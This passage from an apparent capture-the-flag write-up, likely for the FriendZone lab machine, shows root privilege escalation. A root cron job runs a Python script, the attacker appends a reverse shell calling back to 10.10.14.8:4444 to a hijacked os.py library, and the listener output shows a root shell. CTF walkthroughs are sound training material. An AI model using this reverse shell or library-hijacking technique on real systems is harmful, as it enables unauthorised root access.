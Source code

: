 ###### `Checking out scripts that runs every few minutes`
Using [Pspy](https://github.com/DominicBreuker/pspy/tree/master) I was able to confirm that the `/opt/server_admin/reporter.py` runs every few minutes
```
friend@FriendZone:/tmp$ ./pspy32
2024/10/07 08:20:01 CMD: UID=0     PID=49123  | /bin/sh -c /opt/server_admin/reporter.py
```
###### `Python Library Hijacking`
Source: https://rastating.github.io/privilege-escalation-via-python-library-hijacking/
I have added the following lines into `os.py`. First using NetCat, I transfer the `os.py` file from the Box to my Kali Machine. Than I added the following lines at the end of `os.py` File. And transfer it back to the Box.
```
import socket
import os
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.8",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("sh")
```

Now I started the NetCat Listener on `port 4444` and run the `pspy32` as well. We will have to wait for like 2 minutes for root to run this file.

```
2024/10/07 08:37:51 CMD: UID=0     PID=1      | /sbin/init splash 
2024/10/07 08:38:01 CMD: UID=0     PID=49270  | /usr/bin/python /opt/server_admin/reporter.py 
2024/10/07 08:38:01 CMD: UID=0     PID=49269  | /bin/sh -c /opt/server_admin/reporter.py 
2024/10/07 08:38:01 CMD: UID=0     PID=49268  | /usr/sbin/CRON -f 
2024/10/07 08:38:01 CMD: UID=0     PID=49271  | sh 

```

On the NetCat side.
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.123] 51420
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
Get your Root flag.